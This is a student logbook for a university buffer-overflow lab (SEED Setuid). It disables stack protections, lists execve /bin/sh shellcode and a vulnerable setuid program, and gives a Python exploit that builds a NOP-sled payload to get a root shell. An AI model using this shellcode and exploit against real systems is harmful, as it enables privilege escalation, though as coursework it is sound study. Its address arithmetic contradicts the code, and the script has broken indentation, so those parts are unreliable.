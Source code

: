 # LOGBOOK5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

![Task1](images/logbook5/git51.png)

## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```shell
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

print debug

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.
